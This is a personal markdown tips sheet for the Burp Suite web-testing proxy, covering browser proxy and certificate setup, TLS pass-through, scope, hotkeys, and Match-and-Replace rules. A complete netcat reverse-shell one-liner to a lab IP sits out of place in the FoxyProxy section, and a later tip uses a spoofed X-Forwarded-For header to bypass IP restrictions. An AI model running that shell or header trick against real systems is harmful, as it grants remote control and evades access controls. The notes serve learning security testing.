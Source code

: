 # Burpsuite
This is not a full detailed guide of how to use burpsuite more a selection of tricks and tips. It not really a cheatsheet and more a sheet of helpful stuff. There are full courses of how to use this avaliable from Portswigger, but their are also massive amounts of free resources and relatively cheap resources to learn and practice from. This Helphsheet is more just shortcuts, but is intended to make avaliable some of the functionality you may require extract from GUI menu to a scenario:   
*Problem X -> Do this with Burpsuite(plus another applications)*  
It is also not a showcase of plugins I like or support.  
Some of the tips very simple for simple problems, sometimes that is simply required.

[Official Documentation](https://portswigger.net/burp/documentation/desktop)

# Cool things for the cmd [more]
- Builtin Browser, never setup the burp certifact with your own browser every again!
	GOTO Project settings -> no sandbox for builtin browser


## FoxyProxy/Firefox proxy
Firefox menu -> Settings -> Network Settings click Settings
Select manual proxy configuration:
	HTTP proxy: 127.0.0.1 8080
	uncheck: Also use this proxy for FTP and HTTPS 
	delete: ANYTHING in the "No proxy for" field
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.98 8888 >/tmp/f

## Burp Suite CA
To intercept and analyze HTTPS traffic, BS has Certificate Authority and uses it to issue on-th-fly certifactes for each website that we visit and pass through Burp.

http://burp -> CA Certificate 
save the file cacert.der to `/home/<user>/Downloads`
GOTO Certificate manager in Firefox -> Import it!

## Bypassing Proxy for (some) HTTPS Traffic

Proxy -> Options -> TLS Pass Through -> Add

Need pass through for:
- Targeting
- Required mutual authenication or HTTP Public Key Pinning

## Bypass intercepting HTTPS traffic by configurating to forward traffics towards websites without decrypting and re-encrypting them first.

## SOCKS Proxy in Burp
`User options -> SOCKS Proxy -> 127.0.0.1 & port number` then tick the `Use Proxy`

## Too much data -> Add Scope to include/exclude
`Target -> Scope -> Target scope`, to add manually or 
right click and add under main `Target Site map` tab.

## How is the site structured -> Sitemap
`Target -> Site map` Click the `>` and view in tree form.

## "Bad Request This combination of host and port requires TLS" -> Read Url
Use https in url you fool!

## Software is preventing site X browser from connecting -> Setup certificates in browser
Goto the very good visual guide on [THM](https://tryhackme.com/room/burpsuitebasics) - Task 10.
## Burp Intercepting Everything -> use the embedded Browser
If you do not want manage proxys on host OS or inside a browser, just use the embedded browser. Goto
`Project options -> Misc -> Embedded Browser` and check the  `Allow the embedded browser to run without a sandbox`.

**This is a solution to a problem I have yet to encounter but is here to solve a problem at a later date**
```
SSL/TLS  -> SSL pass through feature
[official-ps/blog/ssl-pass-through](https://portswigger.net/blog/ssl-pass-through-in-burp)
```

## Shortcuts
For customisation go to `User Options > Misc > Edit Hotkeys`, for default shortcuts:

**Navigation**
Shortcut | Function  
--- | ---
`Ctrl + Shift + D` | Switch to the Dashboard  
`Ctrl + Shift + T`   |  Switch to the Target tab  
`Ctrl + Shift + P   ` | Switch to the Proxy tab  
`Ctrl + Shift + I   ` | Switch to the Intruder tab  
`Ctrl + Shift + R   ` | Switch to the Repeater tab

**Proxy**
Shortcut | Function  
--- | ---
`Ctrl + F` | Forward an intercepted message
`Ctrl + L` | Drop an intercepted message
`Ctrl + D` | Delete an intercepted message

## Intruder Payloads
- Recursive Grep = allows extract each paylaod from the response to the previous request - useful when you need to extract useful data or deliever an exploit 

## Need to Spoof your IP in burp?
- `Proxy -> Option -> Match and Replace`
-  Requires you to find a custom IP Header
	1. Leave Match field empty
	2. In the Replace field: `X-Forwarded-For: 127.0.0.1`

[Match and Replace](https://portswigger.net/burp/documentation/desktop/tutorials/using-match-and-replace): "*Note: In the wild, the de-facto standard header `X-Forwarded-For` is often used for this purpose, but you may encounter websites that use different custom headers. These are normally applied to your requests by an intermediary server, such as a load balancer or other reverse proxy belonging to a CDN, for example.*"

[r3d-buck3t Medium Article](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)

## Can't get a page you fuzzed?
- `Proxy -> Option -> Match and Replace`
	1. Change Type: Responder Header
	2. Leave Match field: `Location: AnnoyingPage.Lang`
	3. In the Replace field: empty



## References

[Official Documentation](https://portswigger.net/burp/documentation/desktop)
[THM basics](https://tryhackme.com/room/burpsuitebasics)
[official-ps/blog/ssl-pass-through](https://portswigger.net/blog/ssl-pass-through-in-burp)
[cybrary](https://www.cybrary.it/blog/burp-suite-tutorial-part-2-essential-shortcuts-in-burp-suite-proxy-for-more/)
[Match and Replace](https://portswigger.net/burp/documentation/desktop/tutorials/using-match-and-replace)
[r3d-buck3t Medium Article IP bypassing](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)
